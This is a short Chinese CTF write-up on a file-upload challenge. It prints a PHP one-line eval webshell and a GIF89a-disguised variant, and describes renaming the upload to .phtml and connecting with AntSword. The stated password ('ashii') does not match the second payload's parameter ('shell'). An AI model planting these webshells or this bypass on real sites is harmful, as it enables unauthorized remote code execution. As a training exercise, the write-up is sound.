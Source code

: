 尝试成功让人感动流泪。其实木马什么的并不难，难的是怎么连接上中了webshell的网站。<br>
好的，让我来记录一下子这激动人心的时刻。<br>

首先我们打开靶机就是一个普通的界面，上传文件。<br>
不过都极客大挑战了，再上传什么php，js就有点睿智了，所以一上来用png或者gif或者more others。
一句话木马：
```php
<?php @eval($_POST['ashii']); ?>
```
传入文件后，毫不意外出现警告，`<?`被禁止。<br>
所以转个<br>


```javascript
GIF89a
<script language='php'>eval($_POST['shell'])</script>
```

在抓包之后进行修改，将后缀'.png'修改成`.phtml`，forward。<br>

界面显示上传成功后，我们尝试一下`xxx/upload/yyy.phtml`，界面如果显示了`GIF89a`，代表着访问成功。
接下来直接用该网址连接byAntSword，密码是`$_POST[]`的内容，此处为`ashii`。成功连接之后很容易可以找到flag文件。

<br>

一些补充材料：
<a href='https://www.solvusoft.com/zh-cn/file-extensions/file-extension-phtml/#'>什么是phtml</a>

<a href='https://zhuanlan.zhihu.com/p/138200793'>一句话木马</a>

<a href='https://www.cnblogs.com/linfangnan/p/13588709.html'>CTF-WEB简单参考</a>

<a href=https://blog.csdn.net/July_2th/article/details/84335572>webshell、木马、后门的区别</a>